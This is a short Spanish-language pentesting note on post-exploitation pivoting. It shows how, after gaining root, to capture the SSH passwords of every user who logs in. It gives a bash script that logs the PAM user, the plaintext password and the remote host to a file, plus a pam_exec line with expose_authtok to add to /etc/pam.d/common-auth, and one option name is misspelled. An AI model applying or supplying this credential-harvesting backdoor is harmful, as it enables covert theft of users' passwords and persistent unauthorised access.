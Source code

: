 #pivoting 
Una vez que seamos usuarios root de una máquina, podemos recibir credenciales de ssh de todos los usuarios que entren por SSH; y el proceso será el siguiente:

- PASO 1 - Crear un script llamado no.sh con el siguiente código, que si lo ejecutamos permanecerá a la escucha esperando para recibir credenciales del usuario:
```bash
echo "$(date) $PAM_USER, $(cat-), From: $PAM_RHOST" >> /var/log/dame_contraseña.log
```

![[Pasted image 20240615203151.png]]

- PASO 2 - Editamos el fichero /etc/pam.d/common-auth; y añadimos esta línea justo al final, donde hacemos el llamamiento al script que antes hemos creado:

```bash
auth optional pam_exec.so quier expose_authtok /home/mario/no.sh
```

![[Pasted image 20240615203202.png]]

Por tanto ahora simplemente ejecutamos el script no.sh y estará a la escucha esperando a recibir alguna conexión para enviarnos las credenciales de dicho usuario al fichero /var/log/dame_contraseña.log:

![[Pasted image 20240615203222.png]]

Y ahora si iniciamos sesión por ssh, habremos recibido las credenciales:

![[Pasted image 20240615203226.png]]
